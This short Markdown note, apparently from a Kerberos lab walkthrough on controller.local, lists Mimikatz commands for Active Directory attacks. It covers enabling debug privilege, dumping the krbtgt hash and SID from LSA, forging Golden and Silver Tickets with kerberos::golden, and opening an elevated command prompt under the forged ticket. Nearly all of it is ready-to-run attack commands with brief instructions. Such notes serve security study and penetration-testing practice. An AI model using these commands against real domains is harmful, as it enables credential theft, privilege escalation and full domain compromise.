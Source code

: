 # Commands: 

privilege::debug
    - ensure this outputs [privilege '20' ok]

lsadump::lsa /inject /name:krbtgt
    - This will dump the hash as well as the security identifier needed to create a Golden Ticket. 
    - To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.

kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:
    - for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.

misc::cmd
    - This will open a new elevated command prompt with the given ticket in mimikatz.